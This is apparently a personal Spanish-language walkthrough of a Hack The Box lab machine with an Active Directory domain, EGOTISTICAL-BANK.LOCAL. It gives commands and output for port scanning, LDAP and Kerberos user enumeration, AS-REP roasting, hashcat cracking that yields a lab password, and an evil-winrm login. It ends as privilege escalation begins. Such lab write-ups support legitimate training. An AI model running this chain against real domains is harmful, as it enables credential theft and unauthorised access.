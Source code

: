 `nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.10.175 -oG allPorts`
`nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49668,49673,49674,49677,49689,49697 -sCV 10.10.10.175 -oN targeted`
 ``` python
53/tcp    open  domain       
80/tcp    open  http         
|_http-server-header: Microso
|_http-title: Egotistical Ban
| http-methods: 
|_  Potentially risky methods
88/tcp    open  kerberos-sec 
135/tcp   open  msrpc        
139/tcp   open  netbios-ssn  
389/tcp   open  ldap         
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         
3269/tcp  open  tcpwrapped
5985/tcp  open  http         
|_http-server-header: Microso
|_http-title: Not Found
9389/tcp  open  mc-nmf       
49668/tcp open  msrpc        
49673/tcp open  ncacn_http   
49674/tcp open  msrpc        
49677/tcp open  msrpc        
49689/tcp open  msrpc        
49697/tcp open  msrpc        
 ```


#### 445
`netexec smb $IP`
Añadimos el dominio de la maquina a `/etc/host`
`netexec smb $IP --shares`
`smbmap -H $IP`
`smbclient -L $IP -N`


#### 135
`rpcclient -U "" $IP -N`
	`enumdomusers` No nos deja acceder


#### 389
En hacktricks buscamos por el puerto y ahí buscamos por `ldapsearch` para ver diferentes formas de enumerar el servicio

`ldapsearch -x -H ldap://10.10.10.175 -s base namingcontexts`

```
namingcontexts: DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL

```

`ldapsearch -x -H ldap://10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL' | grep "dn: CN="`

```ad-hint
CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL
```

Para validar si existe nos crearemos un `.txt`, con diferentes combinaciones del usuario

Enumeraríamos a través de kerberos con la herramienta [[KERBRUTE]]
`kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc $IP users.txt`
```ad-hint
[+] VALID USERNAME:       hsmith@EGOTISTICAL-BANK.LOCAL
```

Si nos hubiese aparecido un hash es que es vulnerable a `AS_REP ROAST`

Tambien podemos enumerar usuariios con:
`impacket-GetNPUsers -no-pass -usersfile users.txt EGOTISTICAL-BANK.LOCAL/`

Vamos a comprobrobar si se han reutilizado credenciales, 
`netexec smb $IP -u 'hsmith' -p 'hsmith'` No hay reutilización de credenciales


#### 53
`dig @10.10.10.175 EGOTISTICAL-BANK.LOCAL ns`
`dig @10.10.10.175 EGOTISTICAL-BANK.LOCAL mx`
`dig @10.10.10.175 EGOTISTICAL-BANK.LOCAL axfr`

#### 80

Encontramos en `About Us` nombres de usuarios que añadiremos con el mismo formato que el encontrado anteriormente al documento de `users.txt`
```
hsmith
fsmith
scoins
hbear
btayler
skerb
```

Volvemos a usar [[KERBRUTE]] para identificar usuarios los usuarios encontrados:
`kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc $IP users.txt`

También lo podemos hacer con
`impacket-GetNPUsers -no-pass -usersfile users.txt EGOTISTICAL-BANK.LOCAL/`

Y nos mostraría que el usuario `fsmith` no cuenta con preautenticacion de kerberos y nos muestra el hash del Ticket Granting Ticket. Siendo asi vulnerable a `ASREPRoasting`

```ad-hint
ASREPRoasting en el usuario fsmith
```

Para crakeralo por fuerza bruta lo guardamos en un fichero llamado hash
Esta vez vamos ha crackearlo con la GPU directamente desde la máquina Windows, nos conectaremos por ssh a nuestra maquina HOST y navegaremos al directorio donde esta instalado el [[HASHCAT]], en nuestra maquina atacante levantamos un servicio SMB
`impacket-smbserver smbFolder $(pwd) -smb2support`

Y desde la máquina host obtenemos el archivo con el hash
`copy \\192.168.1.21\smbFolder\hash hash`

Ahora ejecutaremos [[HASHCAT]]
`hashcat.exe -m 18200 -a 0 hash rockyou.txt`

Nos muestra la contraseña del usuario `fsmith`
```ad-hint
fsmith::Thestrokes23
```

Comprobamos que la contraseña pertenezca al usuario 
`netexec smb $IP -u 'fsmith' -p 'Thestrokes23'`

Como el puerto `5985` esta abierto que corresponde al servicio de administración remota de Windows, así que vamos a intentar conectarnos con [[CRACKMAPEXEC-NETEXEC]]
`netexec winrm $IP -u 'fsmith' -p 'Thestrokes23'`

Nos aparece un `Pwn3d!` queriendo decir que este usuario pertenece al grupo de administración remota de la maquina pudiendo así acceder con [[EVIL_WINRM]]
`evil-winrm -i $IP -u 'fsmith' -p 'Thestrokes23'`

Obtenemos una consola interactiva


### Escalada de privilegios
`whoami /priv`
`whoami /all`

Ver que mas usuarios pertenecen al grupo de `REMOTE MANAGEMENT`
`net localgroup "Remote Management Users"`

Encontramos al usuario `svc_loanmgr`

Enumerar las credenciales del usuario:
Usaremos `WinPEAS` que nos lo transferiremos a la maquina atacante
`upload /home/jalag/Workzone/VPN/HTB/Machines/WorkLab/content/winPEAS.exe`

